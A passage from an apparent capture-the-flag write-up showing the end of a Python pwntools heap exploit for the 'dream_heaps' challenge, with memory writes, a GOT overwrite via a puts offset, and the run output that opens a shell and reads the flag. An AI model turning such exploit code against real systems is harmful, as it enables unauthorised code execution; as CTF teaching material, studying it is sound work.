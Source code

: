 ```
write('0'*10, 0xb0)
write('0'*10, 0xc0)
write('0'*10, 0xd0)
write('0'*10, 0xe0)
write('0'*10, 0xf0)
write('0'*10, 0x11)
write('0'*10, 0x22)
write('0'*10, 0x18)
write('0'*10, 0x602018)
write('0'*10, 00)

edit(17, p64(puts -0x2a300))

delete(0)

target.interactive()
```

when we run it:

```
$	python exploit.py 
[+] Opening connection to chal1.swampctf.com on port 1070: Done
Online dream catcher! Write dreams down and come back to them later!

.	.	.

Which dream would you like to delete?
[*] Switching to interactive mode

$ w
 02:22:24 up 8 days,  3:46,  0 users,  load average: 0.00, 0.05, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
dream_heaps
flag.txt
$ cat flag.txt
flag{d0nt_bE_nu11_b3_dul1}
```

Just like that, we captured the flag!
